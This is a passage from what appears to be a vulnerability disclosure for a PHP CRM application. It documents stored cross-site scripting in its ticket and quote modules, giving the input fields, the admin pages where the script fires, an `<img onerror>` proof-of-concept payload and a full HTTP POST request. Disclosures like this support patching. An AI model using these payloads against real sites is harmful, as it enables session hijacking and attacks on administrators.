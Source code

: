 When admin accesses /crm/admin/manageability users. php, the payload is automatically triggered.

screenshot：

![image-20250827013815743](https://mac-pic-1314279731.cos.ap-nanjing.myqcloud.com/image-20250827013815743.png)

### Case 2: Ticket Module

- **Input parameter**: ticket (subject or description)
- **Input file**: /crm/create-ticket.php
- **Trigger file**: /crm/admin/manage-tickets.php

PoC Payload (in ticket subject or description): 

```
<img src="#" onerror=alert("XSS")>
```

```
POST /crm/create-ticket.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 132
Origin: http://xxx.xxx.xxx.xxx
Connection: keep-alive
Referer: http://xxx.xxx.xxx.xxx/crm/create-ticket.php
Cookie: PHPSESSID=uqub0pe6484q6qpgmfm3d3mdu7
Upgrade-Insecure-Requests: 1
Priority: u=0, i

subject=%3Cimg+src%3D%22%23%22+onerror%3Dalert%28%22XSS%22%29%3E&tasktype=Select+your+Task+Type&priority=&description=test&send=Send
```

When admin accesses /crm/admin/manage-tickets.php, the payload is automatically triggered.

screenshot

![image-20250827014211438](https://mac-pic-1314279731.cos.ap-nanjing.myqcloud.com/image-20250827014211438.png)

### **Case 3: Quote Module**

- **Input parameter**: query
- **Input file**: /crm/get-quote.php
- **Trigger file**: /crm/admin/quote-details.php?id=x

PoC Payload (in quote query field):

```
<img src="#" onerror=alert("XSS")>
```
